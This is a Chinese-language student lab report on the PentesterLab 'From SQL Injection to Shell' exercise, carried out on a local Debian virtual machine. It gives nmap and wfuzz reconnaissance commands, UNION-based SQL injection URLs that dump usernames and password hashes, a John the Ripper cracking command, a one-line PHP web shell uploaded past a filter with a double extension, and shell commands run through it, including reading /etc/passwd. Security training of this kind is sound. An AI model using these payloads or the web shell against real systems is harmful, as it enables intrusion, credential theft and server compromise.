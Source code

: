 # 从SQL输入到shell
### 实验环境
- 下载ISO镜像，其实就是一个Debian服务器，用该镜像新建一个虚拟机，安装完毕后发现是个控制台。
- kali攻击者：
  - ```kali-linux-2018.3-amd64.iso```
  - 使用网卡:NatNetwork
  - 网络配置：10.0.2.8
- Debian SQL:
  - ```SQLfrom_sqli_to_shell_i386.iso```
  - 使用网卡：NatNetwork
  - 网络配置：10.0.2.15
 
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/attacker_%E9%85%8D%E7%BD%AE.png)
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/sql_%E9%85%8D%E7%BD%AE.png)

- 两者在同一个网段，能够ping成功
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/attacker_ping.png)
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/sql_ping.png)

### 实验过程
#### 指纹识别：收集有关web应用程序和正在使用的技术信息
  - 使用```nmap -A 10.0.2.15```扫描服务器，查看它的MAC地址和端口的开放情况
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/attacker_nmap_sql.png)
  - 通过浏览器识别网页源码，发现是应用程序是用PHP编写的
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E6%BA%90%E7%A0%81_php.png)
  - 使用BurpSuit检查HTTP标头，获取更多有用的信息
    - 先给浏览器设置代理：Preferences->Advanced->Network->Setting
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E6%B5%8F%E8%A7%88%E5%99%A8%E4%BB%A3%E7%90%86%E8%AE%BE%E7%BD%AE.png)
    - 将BurpSuit的默认代理拦截先关闭，然后再在浏览器访问服务器，```10.0.2.15```
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E6%B5%8F%E8%A7%88%E5%99%A8%E9%BB%98%E8%AE%A4%E4%BB%A3%E7%90%86%E5%85%B3%E9%97%AD.png)
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/burpsuit_http%E5%8A%AB%E6%8C%81.png)
    
  - 使用工具wfuzz能够强力检测web服务器上的目录和页面，运行一下命令来检测远程文件和目录
  ``` wfuzz -c -z file,wordlist/general/big.txt --hc 404 http://10.0.2.15/FUZZ```
    - ```-c```是输出字体的颜色
    - ```-z file,wordlist/general/big.txt```告诉wfuzz使用big.txt作为字典来强制远程目录的名称
    - ```--hc``` 404如果响应代码是404，告诉wfuzz忽略响应
    - ```http://10.0.2.15/FUZZ```告诉wfuzz用字典中的每个值替换URL中的单词FUZZ。
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/wfuzz%E4%BF%A1%E6%81%AF0.png)
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/wfuzz%E4%BF%A1%E6%81%AF1.png)
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/wfuzz%E4%BF%A1%E6%81%AF2.png)

  - wfuzz还可以用于检测服务器上的PHP脚本
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/wfuzz%E6%A3%80%E6%B5%8BPHP%E8%84%9A%E6%9C%AC.png)

#### SQL注入的检测和利用(做实验到半虚拟机卡住了，重新开始后服务器的ip变为：10.0.2.9)
 - 检测SQL注入
   - 基于整数的检测
    在地址栏输入
   ``` 
   10.0.2.9/cat.php?id=1
   10.0.2.9/cat.php?id=2
   10.0.2.9/cat.php?id=3
   ```
   得到如下访问结果
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/id%3D1%2C2.png)

   如果输入10.0.2.9/cat.php?id=2'数据库将引发错误，多了一个'，因为该SQL的请求语法不正确
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/id%3D2%2C3.png)
    
   如果输入10.0.2.9/cat.php?id=2-1，效果和输入10.0.2.9/cat.php?id=1一样，2-1操作由数据库自动执行
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/id%3D1%2C2-1.png)
    
     - 基于字符串的检测
       - 作为一般规则，奇数个单引号会引发错误，偶数个单引号不会发生错误 
       - 如果在单引号后面加上```--```表示后面的内容会被注释掉，因此不会受到错误提示
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/id%3D1'.png)
- 利用SQL注入
  - UNION关键字 
  - 步骤：
    - 找到执行UNION的列数
    - 查找页面中回显的列
    - 从数据库元表中检索信息
    - 从其他表/数据库中检索信息
  - 猜列数
    - 使用UNION SELECT
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E7%8C%9C%E5%88%97%E6%95%B0.png)
    - 使用order by,order by主要用于告诉数据库应该使用哪个列来排序结果，如下图，按不同的列，返回结果不同
    【order_by】
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/order_by.png)
- 进行以上操作后，我们猜测数据库有4列
- 检索信息
  - 查找页面中回显的列,确定回显在第二列
  ``` 
  http://10.0.2.9/cat.php?id=1%20UNION%20SELECT%20@@version,2,3,4
  http://10.0.2.9/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4
  ```
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E5%9B%9E%E6%98%BE1.png)
   ``` 
   http://10.0.2.9/cat.php?id=1%20UNION%20SELECT%201,2,@@version,4
   http://10.0.2.9/cat.php?id=1%20UNION%20SELECT%201,2,3,@@version
   ```
   ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E5%9B%9E%E6%98%BE2.png)

  - 找到当前数据库中所有表的名称和表的列的名称
  ```
  http://10.0.2.9/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns
  ```
  - 根据得到结果猜测用户名和密码存储在users表中
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/users.png)
  - 将users表中的信息显示出来
  ```
  http://10.0.2.9/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users
  ```
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/users%E4%BF%A1%E6%81%AF.png)

#### 访问管理页面和代码执行
  - 破解密码 
    - google搜索

    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/password0.png)
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/password.png)

    - 使用John可以破解该密码,先使用gunzip rocketyou.txt.gz 解压得到rocketyou.txt
    把用户名和密码密文写入到password中，执行
    ```
    john password --format=raw-md5  --wordlist=/usr/share/wordlists/rockyou.txt --rules
    ```
得到如下：

![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/john%E7%A0%B4%E8%A7%A3.png)

- 进行代码注入
  - 使用已经获得的用户名和密码登录到页面
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/login.png)
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/login1.png)
  - 创建test.php
  ```
  <?php 
  system($_GET['cmd']);
  ?>
  ```
 
  - add a new picture后，可以看到文件没有正确上传，应用程序阻止上传.php的文件

  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/add1.png)
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/add2.png)

  - 将文件名改为test.php.test文件上传成功
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/add3.png)
  - 查看网页原码
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/html.png)

- 利用url执行cmd命令获取服务器信息
```
10.0.2.9/admin/uploads/test.php.test?cmd=uname
```
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/linux.png)
获取系统用户的完整信息
```
10.0.2.9/admin/uploads/test.php.test?cmd=cat /etc/passwd
```
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/linux1.png)

- 参考资料
  - [从SQL注入到Shell ](https://pentesterlab.com/exercises/from_sqli_to_shell) 
  - [2018-NS-Public-FLYFLY-H ](https://github.com/CUCCS/2018-NS-Public-FLYFLY-H/)
  - [2018-NS-Public-luyj ](https://github.com/CUCCS/2018-NS-Public-luyj)

  



    

